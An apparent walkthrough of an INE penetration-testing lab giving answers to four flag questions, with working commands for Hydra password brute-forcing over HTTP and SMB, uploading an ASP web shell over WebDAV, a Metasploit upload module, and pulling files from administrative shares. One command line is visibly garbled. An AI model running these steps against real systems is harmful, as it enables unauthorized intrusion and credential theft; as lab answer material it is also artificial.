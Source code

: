 # Host & Network Penetration Testing: System-Host Based Attacks

## Questions and Resolutions

### Q1. User ‘bob’ might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located. (target1.ine.local)

**Resolution:**  
- Perform a reconnaissance scan with Nmap:
```bash
nmap -sC -sV target1.ine.local
```
- Notice port 80 is open with a 401 Unauthorized status.
- Brute-force the password for user `bob` using Hydra:
```bash
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get
```
- Log in and perform directory fuzzing with Dirb:
```bash
dirb http://target1.ine.local -u bob:<password>
```
- Discover and navigate to `/webdav` for the target.

### Q2. Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)

**Resolution:**  
- Discover `.asp` file upload possibility (e.g., `test.asp`).
- Enumerate file upload extensions with davtest:
```bash
davtest -auth bob:<password> -url http://target1.ine.local/webdav
```
- Upload a shell using cadaver:
```bash
cadaver http://target1.ine.local/webdav
put /usr/share/webshells/asp/webshell.asp
```
- Use the shell to access the C: drive and list contents:
```bash
dir C:type C:lag2.txt
```
- Alternatively, use the Metasploit module `windows/iis/iis_upload_webdav_upload_asp`.

### Q3. By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag. (target2.ine.local)

**Resolution:**  
- Scan with Nmap for open SMB port (445).
- Gather info with enum4linux (may be blocked).
- Brute-force user and password using Hydra:
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://target2.ine.local
```
- Access the SMB share for administrator:
```bash
smbclient -L //target2.ine.local -U administrator
```
- Check share permissions with crackmapexec:
```bash
crackmapexec smb target2.ine.local -u administrator -p <password> --shares
```
- Connect to C$ and download flag:
```bash
smbclient //target2.ine.local/C$ -U administrator
dir
get flag3.txt
```

### Q4. The Desktop directory might have what you’re looking for. Enumerate its contents. (target2.ine.local)

**Resolution:**  
- Navigate to the Administrator's Desktop:
```bash
cd Users\Administrator\Desktop
dir
get flag4.txt
```
- Read the flag file locally with `cat`.

